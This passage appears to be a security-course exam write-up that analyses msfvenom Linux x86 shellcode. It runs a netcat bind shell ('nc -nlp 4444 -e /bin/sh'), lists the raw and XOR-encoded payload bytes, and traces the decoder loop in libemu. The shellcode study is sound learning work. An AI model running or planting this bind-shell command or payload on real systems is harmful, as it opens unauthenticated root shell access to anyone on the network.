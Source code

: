 ![](/msfLogo.png)

For the 5th assignment of the SLAE Exam, I will be analyzing 3 different linux x86 shellcodes created with MSF Venom.
The first will be the payload: /linux/x86/exec
The command being executed will be: nc -nlp 4444 -e "/bin/sh" &
  - This will create a bind shell, on TCP port 4444, on all network interfaces, and then background the process.
Testing out the command:
```c
root# nc -nlp 4444 -e "/bin/sh" &
[1] 9119
root# netstat -tnalp | grep nc
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      9119/nc
```
We can see that the command successfully ran and was given the process ID 9119 and the job ID of 1.
Using netstat we see that the process nc is successfully listening on all interfaces (0.0.0.0), on TCP port 4444.
Since the job is running in the background, we can use the same terminal window to access our /bin/sh listening on all interfaces, by using netcat to connect to the localhost interface (127.0.0.1) on TCP port 4444.
```c
root# nc 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root),46(plugdev)
```
We successfully are able to run commands with our netcat, bind shell.

Now we will use msfvenom to create a shellcode to execute our netcat, bind shell command. The output will be in C so we can easily add it to our shellcode.c program.
```c
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --format c
Payload size: 63 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x1c\x00\x00\x00\x6e"
"\x63\x20\x2d\x6e\x6c\x70\x20\x34\x34\x34\x34\x20\x2d\x65\x20"
"\x22\x2f\x62\x69\x6e\x2f\x73\x68\x22\x20\x26\x00\x57\x53\x89"
"\xe1\xcd\x80";
```
This payload contains NULL bytes, rendering it useless for shellcode. We will use the builtin XOR encoder to encode our payload before we analyze it.
```c
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --format c --encoder x86/xor_dynamic     
x86/xor_dynamic chosen with final size 109
Payload size: 109 bytes
unsigned char buf[] =
"\xeb\x23\x5b\x89\xdf\xb0\x1a\xfc\xae\x75\xfd\x89\xf9\x89\xde"                                                         
"\x8a\x06\x30\x07\x47\x66\x81\x3f\x88\x02\x74\x08\x46\x80\x3e"                                                         
"\x1a\x75\xee\xeb\xea\xff\xe1\xe8\xd8\xff\xff\xff\x02\x1a\x68"                                                         
"\x09\x5a\x9b\x50\x64\x6a\x2f\x61\x8b\xe5\x6a\x2d\x71\x6a\x02"                                                         
"\x6a\x2d\x60\x6b\x6c\x8b\xe1\x50\xea\x1e\x02\x02\x02\x6c\x61"                                                         
"\x22\x2f\x6c\x6e\x72\x22\x36\x36\x36\x36\x22\x2f\x67\x22\x20"                                                         
"\x2d\x60\x6b\x6c\x2d\x71\x6a\x20\x22\x24\x02\x55\x51\x8b\xe3"                                                         
"\xcf\x82\x88\x02";
```
Perfect, now our shellcode is NULL free. Next we will use sctest from libemu to analyze the shellcode.
> I used my  64-bit Kali machine to create the 32-bit MSF Venom shellcode, and to analyze it with libemu. Unfortunately I could not find a trust-worthy download from the internet. Fortunately libemu is included in the kali repo.
```c
root# apt search libemu
libemu2/kali-rolling,now 0.2.0+git20120122-1.2+b1 amd64 [installed,automatic]
  x86 shellcode detection and emulation
```
Now that we have libemu, we will pipe our payload from msfvenom into sctest. Using sctest from libemu, we will create a visual map of how the shellcode is being executed.
```c
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --encoder x86/xor_dynamic | sctest -Ss 10000 -vvv -G execNC.dot
# Convert from dot to png
root# dot -Tpng execNC.dot -o execNC.png
# open png picture with eog
eog execNC.png
```
![](/execNC.png)

At first this may look a little over-whelming, but once we start breaking it down, we will see it is not that bad.
In the top most block, we can see that the shellcode is using the Jump-Call-Pop technique.
The first instruction `jmp 0x25`, jumps forward 25 bytes. This is a short jump. Short jumps use offsets instead of a hard-coded address. This allows the shellcode to work in the programs it is injected into.
The next instruction `call 0xffffffdd`, is a call instruction. This is similar to a jump instruction. Although before jumping, the instruction after the call instruction is pushed onto the stack. This allows the program to return to where it was, once it is done execution where it was called to. In our situation, the next instruction is actually the memory location to our string. Our string is our entire, XOR'd shellcode payload. 
The 3rd instruction `pop ebx`, pop's the pointer to our payload off into the EBX Register. Once in the EBX Register, it is duplicated to the EDI Register using the instruction `mov, edi,ebx`.
We can see that the loop, outlined using the blue arrow, is a XOR decoder loop. The decoder decodes our shellcode byte by byte using the instruction `xor [edi], al`. After the byte is decoded, the EDI Register is moved forward one byte using the instruction `inc edi`. The instruction `cmp word [edi],0x971b` compares 2 bytes (a word) starting at the memory location of EDI, with the value 0x971b. If the compare instruction returns that the 2 words match, then the result will return a 0 (the cmp instruction subtracts the two values and sets the Zero Flag if Zero). The instruction `jz 0xa` will jump EIP (the instruction Pointer) forward 10 bytes if the last instruction returned zero. This insturction is "Jump if Zero", also know as "Jump if Equal". If we do the math we can see that that would change our location from 0x00417019, to 0x00417023 (indicated by the black arrow). Remember that this is in Hex not in Decimal, do not be decieved thinking it is only moving forward four. 
    0  > 1  > 2  > 3  > 4  > 5  > 6  > 7  > 8  > 9  > 10
    19 > 1a > 1b > 1c > 1d > 1e > 1f > 20 > 21 > 22 > 23

